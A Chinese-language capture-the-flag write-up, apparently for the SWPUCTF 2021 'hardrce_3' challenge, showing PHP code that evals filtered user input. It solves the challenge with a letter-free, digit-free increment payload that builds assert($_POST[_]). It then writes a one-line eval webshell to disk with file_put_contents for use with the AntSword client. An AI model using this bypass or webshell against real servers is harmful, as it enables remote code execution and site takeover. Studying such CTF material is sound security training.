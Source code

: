 #RCE

```php
<?php
header("Content-Type:text/html;charset=utf-8");
error_reporting(0);
highlight_file(__FILE__);
if (isset($_GET['wllm'])) {
    $wllm = $_GET['wllm'];
    $blacklist = [' ', '\^', '\~', '\|'];
    foreach ($blacklist as $blackitem) {
        if (preg_match('/' . $blackitem . '/m', $wllm)) {
            die("小伙子只会异或和取反？不好意思哦LTLT说不能用！！");
        }
    }
    if (preg_match('/[a-zA-Z0-9]/is', $wllm)) {
        die("Ra'sAlGhul说用字母数字是没有灵魂的！");
    }
    echo "NoVic4说：不错哦小伙子，可你能拿到flag吗？";
    eval($wllm);
} else {
    echo "蔡总说：注意审题！！！";
}
```

无字母数字 RCE
而且此题不能 异或，取反，或
可以自增

#### 自增

```url
//测试发现7.0.12以上版本不可使用
//使用时需要url编码下
$_=[];$_=@"$_";$_=$_['!'=='@'];$___=$_;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$___.=$__;$____='_';$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$__=$_;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$__++;$____.=$__;$_=$$____;$___($_[_]);
固定格式 构造出来的 assert($_POST[_]);
然后post传入   _=phpinfo();
```

然后利用 file_put_contents() 写入马，蚁剑连接查看

```php
_=file_put_contents("1.php","<?php @eval($_POST['shell']); ?>");
\@
```

参考
[无字母数字绕过正则表达式总结（含上传临时文件、异或、或、取反、自增脚本）\_无数字正则匹配绕过取反脚本\_yu22x 的博客-CSDN 博客](https://blog.csdn.net/miuzzx/article/details/109143413)

[NSS 日刷-[SWPUCTF 2021 新生赛]hardrce_3-open_basedir 绕过 - Aninock - 博客园 (cnblogs.com)](https://www.cnblogs.com/aninock/p/16461151.html)
